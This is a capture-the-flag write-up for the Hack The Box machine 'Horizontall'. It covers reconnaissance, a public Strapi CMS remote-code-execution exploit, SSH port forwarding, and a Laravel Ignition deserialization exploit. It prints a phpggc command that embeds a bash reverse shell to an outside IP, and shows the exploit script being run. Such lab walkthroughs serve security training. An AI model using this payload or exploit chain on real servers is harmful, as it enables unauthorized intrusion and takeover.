




<p align="center"></img></p>
<p align="center">Machine creator: <a href="https://app.hackthebox.com/profile/4005">wail99</a></p>

[](https://app.hackthebox.eu/profile/184235)
<br>
<a href="https://www.buymeacoffee.com/f4T1H21">
  
  </img>
</a>
<br>

---
# Reconnaissance
### Nmap result
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## `80/tcp` web service
### Vhost enumeration
Virtual hosting can be found by a simple gobuster scan.
```
┌──(root💀f4T1H)-[~/hackthebox/horizontall]
└─# gobuster -q vhost -u http://horizontall.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -r -t 1000
Found: api-prod.horizontall.htb (Status: 200) [Size: 413]
```

### Directory enumeration
See `/admin` from a snippet of the scan.
```
┌──(root💀f4T1H)-[~/hackthebox/horizontall]
└─# gobuster dir -q -u http://api-prod.horizontall.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x .txt,.php,.html,.js -e -t 65  
http://api-prod.horizontall.htb/index.html           (Status: 200) [Size: 413]
http://api-prod.horizontall.htb/admin                (Status: 200) [Size: 854]
. . .
```



# Foothold: Strapi CMS RCE

https://www.exploit-db.com/exploits/50239

>This script exploits two different vulnerability:
>
>1-  There's an unrestricted endpoint `/admin/auth/reset-password` which can give us direct access to admin's password reset functionality.
>
>2- If you make a post request to `/admin/plugins/install` with the authorized JWT token you get from password reset, a plugin name -in this case "documentation"- and a command with the format of: `&& $(id)` it'll be executed. But none of the output will be shown.

Use the exploit to get a reverse shell.

# Privilege Escalation



Although the box seems like it's vulnerable to [CVE-2021-3156](https://github.com/blasty/CVE-2021-3156), unfortunately it isn't.

>You can check your version of sudo is vulnerable with: `$ sudoedit -s Y`. If it asks for your password it's most likely vulnerable, if it prints usage information it isn't.

```
strapi@horizontall:~$ sudoedit -s Y
usage: sudoedit [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] file ...
```

### :')

After stabilizing the connection via ssh, you see a locally listened port: `8000/tcp`
```
strapi@horizontall:~$ netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1836/node /usr/bin/ 
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```

Find out this is a Laravel framework with a curl request.
```
strapi@horizontall:~$ curl http://127.0.0.1:8000 -i
. . .
X-Powered-By: PHP/7.4.22
Set-Cookie: laravel_session=...
. . .
<div class="ml-4 text-center text-sm text-gray-500 sm:text-right sm:ml-0">
                            Laravel v8 (PHP v7.4.18)
                    </div>
. . .
```

### Port forward locally using ssh tunneling.
Press \<Enter\> key once and in the new line immediately press `~` (tilda) before anything else. This'll let you enter ssh prompt and then you can give any flag like as you do at first.
```
strapi@horizontall:~$
strapi@horizontall:~$ 
ssh> -L 8000:127.0.0.1:8000
Forwarding port.

strapi@horizontall:~$
```

## Exploiting Laravel
See the github link mentioned below in [HackTricks' Laravel reference](https://book.hacktricks.xyz/pentesting/pentesting-web/laravel).
<br>https://github.com/ambionics/laravel-exploits

First, git clone the repo I mentioned above and [`phpggc`](https://github.com/ambionics/phpggc).

>- This tool allows you to generate the payload easily, it can be seen as the equivalent of frohoff's ysoserial, but for PHP.<br>
>- The tool supports gadget chains such as: CodeIgniter4, Doctrine, Drupal7, Guzzle, Laravel, Magento, Monolog, Phalcon, Podio, Slim, SwiftMailer, Symfony, Wordpress, Yii and ZendFramework.

Second, start a nc listener.
<br>
Third, generate the payload.
```
┌──(root💀f4T1H)-[~/hackthebox/horizontall]
└─# php -d'phar.readonly=0' phpggc/phpggc --phar phar -f -o exploit.phar monolog/rce1 system "bash -c 'bash -i >& /dev/tcp/10.10.16.42/2121 0>&1'"
```
Fourth, fire up the exploit.
```
┌──(root💀f4T1H)-[~/hackthebox/horizontall]
└─# python3 laravel-exploits/laravel-ignition-rce.py http://127.0.0.1:8000/ exploit.phar                                                          
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
```
As soon as you see the `Successfully converted to PHAR !` message, your command should be executed. In this case the exploit didn't finish running because it provided a reverse connection to me.



---

# Resources

|__`Strapi CMS 3.0.0-beta.17.4 RCE`__|__https://www.exploit-db.com/exploits/50239__|
|:-|:-|
|__`Sudo Heap Based Buffer Overflow`__|__https://github.com/blasty/CVE-2021-3156__|
|__`HackTricks' Laravel Reference`__|__https://book.hacktricks.xyz/pentesting/pentesting-web/laravel__|
|__`Laravel Debug Mode RCE`__|__https://github.com/ambionics/laravel-exploits__|
|__`PHPGGC`__|__https://github.com/ambionics/phpggc__|

<br>

___─ Written by f4T1H ─___